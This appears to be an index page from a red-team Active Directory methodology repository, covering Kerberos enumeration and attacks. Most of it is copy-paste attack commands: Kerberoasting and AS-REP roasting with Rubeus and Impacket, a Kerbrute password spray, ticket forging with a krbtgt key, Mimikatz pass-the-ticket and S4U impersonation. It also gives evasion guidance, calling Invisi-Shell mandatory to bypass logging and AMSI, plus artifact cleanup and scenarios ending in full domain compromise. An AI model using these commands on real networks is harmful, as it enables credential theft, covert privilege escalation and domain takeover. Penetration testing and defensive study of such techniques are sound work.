

[🔄 Back to Master Index](./00_Enumeration_Index.md) | [⏰ Previous: Time-Based Enumeration](./21_Time_Based_Enumeration.md) | [Next: Kerberos Basic Enumeration](./23_Kerberos_Basic_Enumeration.md)

---

## 🔗 **RELATED ACTIVE DIRECTORY COMPONENTS**

### **🔑 Kerberos Authentication Components**
- **[Kerberos](../02_Active_Directory_Components/16_Kerberos.md)**: Core authentication protocol and mechanisms
- **[Domain Controllers](../02_Active_Directory_Components/02_Domain_Controllers.md)**: KDC servers and authentication services
- **[User Accounts](../02_Active_Directory_Components/17_User_Accounts.md)**: Kerberos principals and authentication

### **🏗️ Infrastructure Components**
- **[Domain](../02_Active_Directory_Components/03_Domain.md)**: Domain boundaries for Kerberos realm
- **[Forest](../02_Active_Directory_Components/04_Forest.md)**: Forest-wide Kerberos trust relationships
- **[Sites and Subnets](../02_Active_Directory_Components/06_Sites_and_Subnets.md)**: Network topology for KDC access

### **🔐 Security and Trust Components**
- **[Trusts](../02_Active_Directory_Components/07_Trusts.md)**: Cross-domain Kerberos authentication
- **[Group Policy Objects](../02_Active_Directory_Components/09_Group_Policy_Objects.md)**: Kerberos security policies
- **[FSMO Roles](../02_Active_Directory_Components/08_FSMO_Roles.md)**: PDC emulator for time synchronization

---

## 🚀 **KERBEROS MASTER INDEX OVERVIEW**

> **⚠️ CRITICAL TOOL REQUIREMENT**: **Invisi-Shell** is mandatory for production environments to ensure stealth operations and avoid detection. See [Tool Arsenal](./01_Tool_Setup_Loading.md#-invisi-shell-complete-setup) for setup instructions.

## 📋 TABLE OF CONTENTS
1. [Overview](#-overview)
2. [Learning Path](#-learning-path)
3. [Technique Files](#-technique-files)
4. [Cross-References](#-cross-references)
5. [Integration Strategy](#-integration-strategy)
6. [Quick Start Kerberos Discovery](#-quick-start-kerberos-discovery)
7. [At-a-Glance: Kerberos Essentials](#-at-a-glance-kerberos-essentials)
8. [Pivot Matrix: Strategic Next Steps](#-pivot-matrix-strategic-next-steps)
9. [Comprehensive Enumeration Tools](#-comprehensive-enumeration-tools)
10. [Personas: Real-World Execution Profiles](#-personas-real-world-execution-profiles)
11. [Visual Mastery: Kerberos Architecture](#-visual-mastery-kerberos-architecture)
12. [Lab vs Production: Execution Profiles](#-lab-vs-production-execution-profiles)
13. [Detection, OPSEC & Cleanup](#-detection-opsec--cleanup)
14. [Cross-References & Integration](#-cross-references--integration-1)

## 🎯 OVERVIEW

**Kerberos Techniques Master Index** serves as the central navigation hub for all Kerberos-related enumeration and attack techniques. This index organizes the four focused Kerberos files into a logical learning path that builds from fundamentals to advanced exploitation.

### **🌟 What This Index Provides**
- **Logical learning progression** from basic to advanced techniques
- **Centralized navigation** to all Kerberos technique files
- **Cross-reference system** for seamless technique integration
- **Attack path planning** based on technique dependencies
- **Comprehensive coverage** of Kerberos security landscape

---

## 🛤️ LEARNING PATH

### **Recommended Learning Sequence**



### **Learning Path Explanation**

1. **🔍 Basic Enumeration** - Foundation knowledge and infrastructure discovery
2. **🎯 SPN Discovery** - Service identification and attack vector mapping
3. **🔓 Delegation Abuse** - Authentication mechanism exploitation
4. **⚔️ Advanced Attacks** - Sophisticated ticket manipulation and persistence

---

## 📚 TECHNIQUE FILES

### **1. 🔍 Basic Kerberos Enumeration**
- **File**: [13_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)
- **Focus**: Infrastructure discovery, authentication flow analysis, configuration enumeration
- **Prerequisites**: Basic Active Directory knowledge, PowerView familiarity
- **Learning Outcomes**: Understanding Kerberos ecosystem, basic enumeration techniques

### **2. 🎯 SPN Enumeration Techniques**
- **File**: [14_SPN_Enumeration_Techniques.md](./24_SPN_Enumeration_Techniques.md)
- **Focus**: Service Principal Name discovery, service account analysis, attack planning
- **Prerequisites**: Basic Kerberos enumeration, understanding of SPN structure
- **Learning Outcomes**: SPN discovery methods, service infrastructure mapping, Kerberoasting target identification

### **3. 🔓 Kerberos Delegation Abuse**
- **File**: [15_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md)
- **Focus**: Delegation enumeration, abuse techniques, advanced delegation attacks
- **Prerequisites**: SPN enumeration, understanding of delegation types
- **Learning Outcomes**: Delegation discovery, abuse execution, multi-hop and cross-forest attacks

### **4. ⚔️ Kerberos Advanced Attacks**
- **File**: [16_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md)
- **Focus**: Golden, Silver, and Diamond ticket attacks, advanced exploitation
- **Prerequisites**: Delegation abuse, understanding of ticket manipulation
- **Learning Outcomes**: Advanced attack execution, persistence techniques, stealth methods

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### **🔧 Microsoft‑Signed Tools**
- **ActiveDirectory Module**: Signed discovery with minimal footprint
  - `Get-ADDomain` — Domain basics (KDCs, PDC)
  - `Get-ADForest` — Forest trusts and domains
  - `Get-ADUser -Filter * -Properties ServicePrincipalName, msDS-AllowedToDelegateTo, userAccountControl -ResultSetSize 100` — SPNs, delegation flags, UAC
  - `Get-ADComputer -Filter * -Properties ServicePrincipalName, TrustedForDelegation` — Computer SPNs and delegation
  - `Get-ADGroup -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" -Properties *` — RBCD principals
  - `Get-ADObject -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" -SearchBase (Get-ADDomain).DistinguishedName -Properties *` — DONT_REQ_PREAUTH
- **Native Windows**:
  - `klist` — View/verify cached tickets
  - `setspn -Q */*` — Broad SPN discovery (use sparingly)
  - `nltest /dsgetdc:<domain>` — Closest DC/KDC
  - `whoami /groups` — Ticket group context validation
  - `wevtutil qe Security /q:*[System[(EventID=4769)]] /c:1` — TGS request sanity

### **⚔️ Offensive Tools (PowerView / SharpView)**
- Load: `. .\\PowerView.ps1` or `SharpView.exe`
- Copy‑paste commands (Kerberos‑focused):
```powershell
# Domain and policy context
Get-Domain | fl *
Get-DomainPolicy

# SPN discovery variants
Get-DomainUser -LDAPFilter "(servicePrincipalName=*)" -Properties samaccountname,serviceprincipalname
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname
Get-DomainComputer -LDAPFilter "(servicePrincipalName=*)" -Properties name,serviceprincipalname
Get-DomainSPN -Verbose

# Kerberoast targeting
Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat
Get-DomainSPNTicket -UserName svc_sql
Get-DomainSPNTicket -SearchBase (Get-Domain).DistinguishedName -LDAPFilter "(servicePrincipalName=*http*)"

# AS-REP roasting
Get-DomainUser -PreauthNotRequired -Properties samaccountname | Select -Expand samaccountname

# Delegation discovery
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
Get-DomainComputer -TrustedForDelegation
Get-DomainObject -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" -Properties *

# Enc types and UAC hunting
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Get-DomainUser -Properties msDS-SupportedEncryptionTypes

# Trusts and cross-forest context
Get-DomainTrust
Get-ForestTrust
```

```cmd
:: SharpView equivalents (examples)
SharpView.exe Get-DomainUser -SPN
SharpView.exe Get-DomainSPNTicket -SPN MSSQL/*
SharpView.exe Get-DomainUser -PreauthNotRequired
SharpView.exe Get-DomainComputer -TrustedForDelegation
```

### **🔴 Red Team Enumeration Tools**

#### Rubeus (tickets and roasting)
```cmd
Rubeus.exe asrep /user:USER [/domain:corp.local] /format:hashcat /outfile:asrep.txt
Rubeus.exe kerberoast /rc4opsec /outfile:spn_hashes.txt
Rubeus.exe asktgt /user:USER /password:P@ssw0rd! /ptt
Rubeus.exe s4u /user:svc_http /impersonateuser:admin /msdsspn:http/web01.corp.local /ptt
Rubeus.exe tgtdeleg
Rubeus.exe renew /ticket:BASE64TGT
Rubeus.exe purge
```

#### Kerbrute (existence and auth timing)
```bash
kerbrute userenum -d corp.local users.txt --dc dc01.corp.local
kerbrute passwordspray -d corp.local users.txt 'Spring2025!'
```

#### Impacket (Python suite)
```bash
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt -dc-ip 10.0.0.10 -format hashcat -outputfile asrep_hashes.txt
GetUserSPNs.py corp.local/USER:'P@ssw0rd!' -dc-ip 10.0.0.10 -request -outputfile spn_tgs.kirbi
ticketer.py -aesKey <krbtgt_aes> -domain corp.local -spn CIFS/filesrv.corp.local forged_user
```

#### Mimikatz / Kekeo (ticket ops)
```cmd
mimikatz.exe "privilege::debug" "kerberos::list" exit
mimikatz.exe "kerberos::ptt c:\\temp\\tgs.kirbi" exit
kekeo.exe tgt::ask /user:USER /domain:corp.local /password:P@ssw0rd!
kekeo.exe tgs::s4u /user:svc /impersonate:admin /service:http/web01.corp.local
```

### **🛠️ Alternative Enumeration Tools**
- LDAPDomainDump, AdFind, DSInternals

### **🔍 Specialized Tools**
- SharpKerberos, KrbRelayX (advanced/edge scenarios)

## 📋 **QUICK START KERBEROS DISCOVERY**

| Phase | Tool | Command | Purpose | OPSEC Level |
|-------|------|---------|---------|-------------|
| **1** | MS AD Module | `Get-ADUser -Filter * -Properties ServicePrincipalName -ResultSetSize 25` | Initial SPN landscape (scoped) | 🟢 Stealth |
| **2** | Native | `klist` | Current TGT/TGS cache baseline | 🟢 Stealth |
| **3** | PowerView | `Get-DomainUser -PreauthNotRequired` | AS-REP roastable discovery | 🟡 Balanced |
| **4** | PowerView | `Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat` | Targeted kerberoast | 🟠 Noisy |
| **5** | Red Team | `Rubeus asktgt /user:svc /password:... /ptt` | On-demand TGT for testing | 🔴 High |

## 🎭 **AT-A-GLANCE: KERBEROS ESSENTIALS**

**Reveals:**
- Realm, KDCs, SPN surface, pre-auth policy, delegation surfaces, encryption types

**Primary Use Cases:**
- Kerberoasting target selection, AS-REP roasting, delegation abuse mapping, ticket ops

**Execution Speed:**
- Stealth: 3–6s jittered queries; Balanced: 1–2s; Lab: 100–300ms

## 🧭 **PIVOT MATRIX: STRATEGIC NEXT STEPS**

| Finding | Immediate Pivot | Strategic Goal | Tool/Technique |
|---------|-----------------|----------------|----------------|
| **Many SPNs on svc accounts** | [24_SPN_Enumeration_Techniques.md](./24_SPN_Enumeration_Techniques.md) | Kerberoast, lateral paths | PowerView, Rubeus, Impacket |
| **DONT_REQ_PREAUTH users** | [23_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md) | AS-REP roast | PowerView, Rubeus, Impacket |
| **TRUSTED_TO_AUTH_FOR_DELEGATION** | [25_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md) | RBCD exploitation | PowerView, Rubeus S4U |
| **Weak enc types (RC4)** | [26_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md) | Forging/roasting | Rubeus, Mimikatz |
| **Cross‑forest trusts** | [30_Forest_Enumeration.md](./30_Forest_Enumeration.md) | Attack path extension | AD Module, PowerView |

## Cross‑References (fixed)
- Users: [05_User_Enumeration.md](./05_User_Enumeration.md)
- Computers: [07_Computer_Enumeration.md](./07_Computer_Enumeration.md)
- Groups: [06_Group_Enumeration.md](./06_Group_Enumeration.md)
- ACLs: [09_ACL_Enumeration.md](./09_ACL_Enumeration.md)
- Sessions: [12_Session_Enumeration_Index.md](./12_Session_Enumeration_Index.md)
- Tooling: [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md)

---

## 🎭 **PERSONAS: REAL-WORLD EXECUTION PROFILES**

### 🕵️ Stealth Consultant (Production)
- Tools: MS AD Module + Invisi‑Shell
- Pattern: OU‑scoped LDAP filters, minimal properties, 3–6s jitter

### ⚡ Power User (Internal Assessment)
- Tools: PowerView + MS AD Module
- Pattern: Focused SPN and delegation sweeps, 1–2s jitter

### 👑 Domain Admin (Lab)
- Tools: Full Rubeus/Mimikatz/Impacket
- Pattern: Broad ticket operations, minimal delays

## 🎨 **VISUAL MASTERY: KERBEROS ARCHITECTURE**

```mermaid
flowchart TD
  A[Client] -->|AS-REQ| B[KDC - AS]
  B -->|AS-REP (TGT)| A
  A -->|TGS-REQ (SPN)| C[KDC - TGS]
  C -->|TGS-REP (service ticket)| A
  A -->|AP-REQ| D[Service (SPN)]
  D -->|AP-REP| A

  subgraph Delegation Surfaces
    E[Unconstrained]:::d
    F[Constrained (S4U2Self/S4U2Proxy)]:::d
    G[RBCD]:::d
  end
  A --> E
  A --> F
  A --> G

  classDef d fill:#ffe0b2,stroke:#333,stroke-width:1px
```

**Diagram Purpose:** Highlights core Kerberos message flow and where roasting, S4U, and delegation abuses attach to the protocol.

## 🏭 **LAB vs PRODUCTION: EXECUTION PROFILES**

### 🔬 Lab
```powershell
Get-DomainUser -SPN | Export-Csv spn_users.csv -NoTypeInformation
Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat | Out-File spn_hashes.txt
Rubeus kerberoast /rc4opsec /outfile:spn_hashes.txt
```

### 🏢 Production (Stealth)
```powershell
Import-Module ActiveDirectory
# OU-scoped, minimal properties, jittered
Get-ADUser -LDAPFilter "(servicePrincipalName=*)" -SearchBase "OU=IT,DC=corp,DC=local" -Properties ServicePrincipalName -ResultSetSize 25 |
  Select-Object SamAccountName,ServicePrincipalName | Export-Csv spn_sample.csv -NoTypeInformation
Start-Sleep -Seconds (Get-Random -Minimum 3 -Maximum 6)
```

## 🛡️ **DETECTION, OPSEC & CLEANUP**

### 🚨 Detection Indicators
- Security 4768/4769 spikes (AS/TGS), unusual SPN targets, repeated S4U
- Kerberos pre-auth failures, RC4‑only patterns, service ticket bursts

### 🔒 OPSEC Best Practices
> **🔒 STEALTH REQUIREMENT**: **Invisi-Shell** must be loaded before any Kerberos enumeration in production environments to bypass logging and AMSI detection. This is non-negotiable for operational security.
- Prefer MS‑signed cmdlets first, scope with LDAP filters and small `ResultSetSize`
- Introduce jitter; avoid `setspn -Q */*` in production
- Separate DNS vs LDAP vs ADWS latency; keep transport consistent per baseline

### 🧹 Cleanup
```powershell
# Files and artifacts
Remove-Item spn_*.*, *asrep*.txt -ErrorAction SilentlyContinue

# Tickets and state
Rubeus purge 2>$null; klist purge 2>$null
```

## 🔗 **CROSS-REFERENCES & INTEGRATION**

### 📚 Related Techniques
- [23_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)
- [24_SPN_Enumeration_Techniques.md](./24_SPN_Enumeration_Techniques.md)
- [25_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md)
- [26_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md)

### 🛠️ Tool Dependencies
- [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md)
- [02_Network_Enumeration.md](./02_Network_Enumeration.md)
- [03_DNS_Enumeration.md](./03_DNS_Enumeration.md)

## 🎯 INTEGRATION STRATEGY

### **Technique Integration Matrix**

| Technique | Basic Enum | SPN Discovery | Delegation Abuse | Advanced Attacks |
|-----------|------------|---------------|------------------|------------------|
| **Infrastructure Mapping** | ✅ Primary | 🔗 Reference | 🔗 Reference | 🔗 Reference |
| **Service Discovery** | 🔗 Foundation | ✅ Primary | 🔗 Reference | 🔗 Reference |
| **Delegation Analysis** | 🔗 Foundation | 🔗 Foundation | ✅ Primary | 🔗 Reference |
| **Ticket Manipulation** | 🔗 Foundation | 🔗 Foundation | 🔗 Foundation | ✅ Primary |

### **Attack Path Integration**

#### **Path 1: Service Account Compromise**
```
Basic Enumeration → SPN Discovery → Delegation Analysis → Advanced Attacks
     ↓                    ↓              ↓              ↓
Infrastructure → Service Accounts → Delegation Abuse → Golden Ticket
```

#### **Path 2: Delegation Chain Exploitation**
```
Basic Enumeration → Delegation Discovery → Chain Analysis → Multi-Hop Attacks
     ↓                    ↓              ↓              ↓
Trust Analysis → Delegation Mapping → Chain Planning → Cross-Forest Access
```

#### **Path 3: Stealthy Privilege Escalation**
```
Basic Enumeration → SPN Analysis → Delegation Abuse → Diamond Ticket
     ↓                    ↓              ↓              ↓
User Context → Service Access → Delegation Scope → Stealth Escalation
```

---

## 🚀 ATTACK SCENARIOS

### **Scenario 1: Complete Domain Compromise**
1. **Basic Enumeration**: Map Kerberos infrastructure and identify high-value targets
2. **SPN Discovery**: Find service accounts with high-value SPNs
3. **Delegation Abuse**: Exploit unconstrained delegation for TGT capture
4. **Advanced Attacks**: Use Golden Ticket for complete domain access

### **Scenario 2: Service-Specific Lateral Movement**
1. **Basic Enumeration**: Understand domain structure and trust relationships
2. **SPN Discovery**: Identify target services and their associated accounts
3. **Delegation Abuse**: Use constrained delegation for service access
4. **Advanced Attacks**: Create Silver Tickets for specific service access

### **Scenario 3: Stealthy Privilege Escalation**
1. **Basic Enumeration**: Identify legitimate user contexts and permissions
2. **SPN Discovery**: Map service access patterns and privileges
3. **Delegation Abuse**: Understand delegation scope and limitations
4. **Advanced Attacks**: Create Diamond Ticket for stealthy escalation

---

## 📊 TECHNIQUE COMPARISON

### **Enumeration Techniques Comparison**

| Aspect | Basic Enum | SPN Discovery | Delegation Abuse | Advanced Attacks |
|--------|------------|---------------|------------------|------------------|
| **Complexity** | 🟢 Low | 🟡 Medium | 🟡 Medium | 🔴 High |
| **Detection Risk** | 🟢 Low | 🟡 Medium | 🟡 Medium | 🔴 High |
| **Privilege Required** | 🟢 None | 🟡 Low | 🟡 Medium | 🔴 High |
| **Attack Impact** | 🟢 Recon | 🟡 Service Access | 🟡 Lateral Movement | 🔴 Domain Compromise |

### **Tool Requirements Comparison**

| Tool | Basic Enum | SPN Discovery | Delegation Abuse | Advanced Attacks |
|------|------------|---------------|------------------|------------------|
| **PowerView** | ✅ Required | ✅ Required | ✅ Required | 🔗 Reference |
| **Mimikatz** | 🔗 Optional | 🔗 Optional | ✅ Required | ✅ Required |
| **Rubeus** | 🔗 Optional | 🔗 Optional | ✅ Required | ✅ Required |
| **Native Tools** | ✅ Required | 🔗 Optional | 🔗 Optional | 🔗 Optional |

---

## 🎯 CONCLUSION

**Kerberos Techniques Master Index** provides a comprehensive framework for mastering Kerberos enumeration and attack techniques. By following the logical learning path, you can:

- **Build foundational knowledge** through basic enumeration
- **Identify attack vectors** through SPN discovery
- **Exploit authentication mechanisms** through delegation abuse
- **Execute sophisticated attacks** through advanced techniques

### **🚀 Key Success Factors**
1. **Sequential Learning**: Follow the recommended learning path
2. **Practical Application**: Use each technique in real scenarios
3. **Tool Mastery**: Become proficient with all required tools
4. **OPSEC Awareness**: Understand detection and evasion techniques
5. **Integration Skills**: Combine techniques for maximum effectiveness

---

**🔐 Remember**: Kerberos techniques are like building blocks - you need a solid foundation before you can construct sophisticated attacks!**

---

## 📚 **NEXT STEPS**

After mastering all Kerberos techniques, continue with:
- **Other Enumeration Techniques**: See [00_Enumeration_Index.md](./00_Enumeration_Index.md)
- **Detection and Evasion**: See [10_Detection_Index.md](./31_Detection_Index.md)
- **Tool Setup and Loading**: See [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md)


---

[Prev: 21_Time_Based_Enumeration.md](./21_Time_Based_Enumeration.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 23_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)
